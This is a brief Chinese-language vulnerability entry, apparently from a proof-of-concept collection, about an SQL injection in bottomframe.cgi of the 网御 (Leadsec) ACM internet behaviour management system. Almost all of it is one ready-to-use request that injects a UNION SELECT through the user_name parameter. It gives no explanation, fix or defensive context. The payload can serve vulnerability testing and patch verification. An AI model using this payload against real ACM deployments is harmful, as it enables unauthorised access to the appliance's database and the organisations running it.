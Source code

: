 # 网御 ACM 上网行为管理系统bottomframe.cgi SQL 注入漏洞

## 网御 ACM 上网行为管理系统bottomframe.cgi SQL 注入漏洞
```
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

